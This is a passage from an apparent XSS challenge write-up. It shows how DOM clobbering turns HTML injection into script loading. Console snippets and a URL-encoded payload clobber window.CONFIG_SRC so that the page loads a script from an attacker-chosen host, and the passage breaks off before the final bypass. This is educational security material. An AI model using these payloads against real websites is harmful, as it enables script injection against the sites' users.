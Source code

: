 This is where DOM Clobbering enters the scene. If you're unfamiliar with how DOM Clobbering works, now's a good time to pause and read the excellent article "[Can HTML affect JavaScript? Introduction to DOM clobbering](https://aszx87410.github.io/beyond-xss/en/ch3/dom-clobbering/)." It's a fascinating technique to escalate HTML injection into XSS. For a broader look at HTML injection escalation paths, I also recommend checking out [Jorian's GitBook](https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/html-injection) on HTML Injection.

# DOM Clobbering the `window`

So, we have a potential DOM Clobbering target (`window.CONFIG_SRC?.dataset["url"]`) and a sink where this value is used (`script.src = new URL(src)`). We also have an HTML injection vulnerability, meaning we can inject HTML elements that might influence `window.CONFIG_SRC`.

Let's test if we can clobber `window.CONFIG_SRC`. We can inject `<div id=CONFIG_SRC></div>` and then check its value in the browser's console:

```js
// Simulate injecting the element
let d = document.createElement('div');
d.id = 'CONFIG_SRC';
document.body.appendChild(d);

// Check if window.CONFIG_SRC is now the element
console.log(window.CONFIG_SRC);
// Expected output: <div id="CONFIG_SRC"></div>
```


This confirms that `window.CONFIG_SRC` can be clobbered by an HTML element with the ID `CONFIG_SRC`. Next, we need to control the `dataset["url"]` property. We can achieve this by adding a `data-url` attribute to our injected element:

```js
// Simulate injecting the element with the data attribute
let d = document.createElement('div');
d.id = 'CONFIG_SRC';
d.dataset['url'] = 'https://example.com';
document.body.appendChild(d);

// Check the element and its dataset property
console.log(window.CONFIG_SRC);
// Expected output: <div id="CONFIG_SRC" data-url="https://example.com"></div>
console.log(window.CONFIG_SRC.dataset.url);
// Expected output: https://example.com
```

It works! This shows that the payload `<div id=CONFIG_SRC data-url="https://example.com"></div>` is precisely what we need to clobber `window.CONFIG_SRC` and control its `dataset.url` property.

Therefore, if we URL-encode this payload and construct the following URL: `?name=%3Cdiv%20id%3DCONFIG_SRC%20data-url%3D%22https%3A%2F%2Fexample.com%22%3E%3C%2Fdiv%3E%20` (remembering the trailing space for the regex), it should trigger the DOM Clobbering. The `addDynamicScript` function will then attempt to load a script from `https://example.com`, leading to XSS. Challenge solved... right?

Well, not so fast. Did you really think it would be that easy? When we use this payload, the confetti still rains down. This shouldn’t happen if `window.CONFIG_SRC` was successfully clobbered, as `/confetti.js` only loads when `window.CONFIG_SRC` is unavailable. Our injected HTML should make it available.
